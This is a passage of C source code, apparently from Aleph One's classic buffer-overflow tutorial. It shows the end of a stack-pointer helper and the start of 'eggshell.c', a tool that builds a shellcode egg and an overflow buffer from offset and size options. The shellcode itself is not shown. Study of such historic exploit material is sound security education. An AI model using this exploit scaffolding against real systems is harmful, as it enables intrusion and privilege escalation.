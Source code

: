 	unsigned long get_sp(void) {
	  __asm__("or %sp, %sp, %i0");
	}
	
	#endif

*eggshell.c*

	/*
	 * eggshell v1.0
	 *
	 * Aleph One / aleph1@underground.org
	 */
	#include <stdlib.h>
	#include <stdio.h>
	#include "shellcode.h"
	
	#define DEFAULT_OFFSET                    0
	#define DEFAULT_BUFFER_SIZE             512
	#define DEFAULT_EGG_SIZE               2048
	
	void usage(void);
	
	void main(int argc, char *argv[]) {
	  char *ptr, *bof, *egg;
	  long *addr_ptr, addr;
	  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
	  int i, n, m, c, align=0, eggsize=DEFAULT_EGG_SIZE;

	  while ((c = getopt(argc, argv, "a:b:e:o:")) != EOF)
	    switch (c) {
	      case 'a':
	        align = atoi(optarg);
	        break;
	      case 'b':
	        bsize = atoi(optarg);
	        break;
	      case 'e':
	        eggsize = atoi(optarg);
	        break;
	      case 'o':
	        offset = atoi(optarg);
	        break;
	      case '?':
	        usage();
	        exit(0);
	    }
	
	  if (strlen(shellcode) > eggsize) {
	    printf("Shellcode is larger the the egg.\n");
	    exit(0);
	  }
	
	  if (!(bof = malloc(bsize))) {
	    printf("Can't allocate memory.\n");
	    exit(0);
	  }
	  if (!(egg = malloc(eggsize))) {
   		 printf("Can't allocate memory.\n");
    	exit(0);
  	}	
	